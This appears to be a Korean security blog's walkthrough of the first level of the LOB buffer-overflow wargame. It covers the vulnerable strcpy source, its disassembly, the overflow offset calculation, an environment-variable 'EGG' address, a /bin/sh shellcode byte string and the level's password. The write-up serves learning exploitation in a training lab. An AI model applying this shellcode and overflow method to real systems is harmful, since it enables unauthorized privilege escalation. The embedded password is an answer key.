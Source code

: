 ```yaml
---
date: '2022-10-11'
before : '2022-10-10'
after : '2022-10-12'
title: '시스템 해킹(17) : FTZ LOB LEVEL 1'
categories: ['C-SEC', 'KOR','pwn']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에


이거이거 드디어 본방이라고 할 수 있는 FTZ LOB의 시작이다! 


사실 이것 제외하고도 본격적인 CTF 실습을 위해 Hack The Box를 병행하고 있지만, 이건 저작권 관련해서 자세하게 공략글을 쓸 수는 없다. 그래도 공부하는 기법들(대부분 웹 해킹)에 대해서는 꾸준히 업로드 해보려고 한다.


### 1. Level 1 : Gate -> Gremlin

LOB부터는 딱히 힌트는 제공되지 않는다. 그래도 소스코드야 볼 수 있으니 이미 FTZ에서 익숙해진 우리라면 충분히 해결할 수 있을 것이다.


그런 의미에서 소스코드를 살펴보면, 딱히 어렵지 않다!

```
int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```

첫 문제라 그런가, 딱히 FTZ과의 차이를 모르겠다. 아주 간단하게 오버플로우를 할 수 있는 구조이다.

```
0x8048430 <main>:       push   %ebp
0x8048431 <main+1>:     mov    %ebp,%esp
0x8048433 <main+3>:     sub    %esp,0x100
0x8048439 <main+9>:     cmp    DWORD PTR [%ebp+8],1
0x804843d <main+13>:    jg     0x8048456 <main+38>
0x804843f <main+15>:    push   0x80484e0
0x8048444 <main+20>:    call   0x8048350 <printf>
0x8048449 <main+25>:    add    %esp,4
0x804844c <main+28>:    push   0
0x804844e <main+30>:    call   0x8048360 <exit>
0x8048453 <main+35>:    add    %esp,4
0x8048456 <main+38>:    mov    %eax,DWORD PTR [%ebp+12]
0x8048459 <main+41>:    add    %eax,4
0x804845c <main+44>:    mov    %edx,DWORD PTR [%eax]
0x804845e <main+46>:    push   %edx
0x804845f <main+47>:    lea    %eax,[%ebp-256]
0x8048465 <main+53>:    push   %eax
0x8048466 <main+54>:    call   0x8048370 <strcpy>
0x804846b <main+59>:    add    %esp,8
0x804846e <main+62>:    lea    %eax,[%ebp-256]
0x8048474 <main+68>:    push   %eax
0x8048475 <main+69>:    push   0x80484ec
```
ebp-256시점에 배열이 다 채워지고 딱히 더미 데이터는 없는 것으로 보인다. 따라서 SFP 4바이트만큼을 더해주고 EGG를 등록한 후 EGG의 주소를 확인하여 입력해주면 된다. 


혹시 EGG가 뭔지 모른다면, 내 블로그의 다음 글을 확인해보자!


EGG의 주소: 0xbffffed4 





따라서 쉘 코드:
```
256 + sfp4 + ret4 => NOP * 260 + ret4(shellcode)
\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80
```
비밀번호 : hello bof world

---
## Source

- 해커스쿨 FTZ
- Me!
